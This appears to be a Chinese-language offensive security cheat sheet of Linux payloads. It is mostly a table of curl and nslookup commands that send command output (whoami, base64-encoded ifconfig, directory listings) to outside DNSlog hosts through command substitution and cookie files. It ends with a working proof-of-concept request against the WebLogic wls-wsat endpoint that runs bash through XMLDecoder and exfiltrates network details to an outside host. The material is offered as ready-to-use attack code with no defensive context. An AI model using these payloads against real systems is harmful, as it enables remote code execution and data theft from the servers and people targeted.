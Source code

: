 

# 0x03 Linux常用payload：

| nslookup  whoami.test.2gln5s.ceye.io                         | 查看主机的名称                                               |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| curl   -X POST http://ip.port.2gln5s.ceye.io/whoami?p=   http -d data=http | 查看主机名称名返回，以http形式                               |
| curl test.2gln5s.ceye.io/`ifconfig|base64|tr '\n' '-'`       | 查看ip     以base64返回 （空格变为-）                        |
| curl http://ip.port.2gln5s.ceye.io/`ls`                      | 显示当前目录下的文件 （只能显示一个）                        |
| curl   `whoami`.2gln5s.ceye.io                               | 查看主机的名称                                               |
| <http://rinige.com/index.php/archives/705/>                  | dnslog   攻击的一些姿势                                      |
| 启动三个白帽任意   linux 结界                                | curl -b cookie=admin   ccxxxx.dnslog.info                    |
| 创建   cookie 文件                                           | echo -e "ccxxxx.dnslog.info\tFALSE\t/\tFALSE\t1450450776\tusername\tadmin" > cookies.txt |
| 执行系统命令，并将结果追加到  cookies.txt 中去               | pwd \| tee -a   cookies.txt                                  |
| 将回显内容变成一行                                           | paste -s -d ":"   cookies.txt \| tee cookies.txt             |
| 日志记录回显内容   cookie                                    | curl -b cookies.txt cc6020.dnslog.info                       |

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3n3bz7h8j20w60mcwfl.jpg)

Poc:

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Content-Type:text/xml
Content-Length: 657

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
 <soapenv:Header>
 <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
 <java version="1.8.0_131" class="java.beans.XMLDecoder">
 <void class="java.lang.ProcessBuilder">
 <array class="java.lang.String" length="3">
 <void index="0">
 <string>/bin/bash</string>
 </void>
 <void index="1">
 <string>-c</string>
 </void>
 <void index="2">
 <string>curl XXXX.dnslog.link/`ifconfig|base64|tr '\n' '-'`</string>
 </void>
 </array>
 <void method="start"/></void>
 </java>
 </work:WorkContext>
 </soapenv:Header>
 <soapenv:Body/>
</soapenv:Envelope>

```
